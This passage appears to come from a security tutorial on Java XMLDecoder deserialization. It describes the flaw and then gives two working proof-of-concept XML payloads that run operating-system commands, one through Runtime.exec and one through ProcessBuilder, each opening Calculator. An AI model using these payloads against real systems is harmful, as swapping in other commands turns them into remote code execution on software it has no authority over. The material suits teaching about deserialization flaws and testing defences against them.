 ```xml
<array class="java.lang.String" length="5">
    <void index="4">
    <string>Hello, h3rmesk1t</string>
    </void>
</array>
```

 - For more tag descriptions, please see [XML Syntax Rules](https://www.runoob.com/xml/xml-syntax.html)

# XMLDecode deserialization vulnerability
## Vulnerability Description
According to the mechanism of parsing `XML` and running code calls methods, construct malicious `XML` to parse and execute malicious code, so as to achieve the purpose of execution of arbitrary commands.

## POC
 - `Runtime.getRuntime().exec()` execute command.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_66" class="java.beans.XMLDecoder">
    <object class="java.lang.Runtime" method="getRuntime">
        <void method="exec">
            <array class="java.lang.String" length="3">
                <void index="0">
                    <string>open</string>
                </void>
                <void index="1">
                    <string>-a</string>
                </void>
                <void index="2">
                    <string>Calculator</string>
                </void>
            </array>
        </void>
    </object>
</java>
```

 - `ProcessBuilder("cmd").start()` executes the command.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_66" class="java.beans.XMLDecoder">
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>open</string>
            </void>
            <void index="1">
                <string>-a</string>
            </void>
            <void index="2">
                <string>Calculator</string>
            </void>
        </array>
        <void method="start"></void>
    </object>
</java>
```
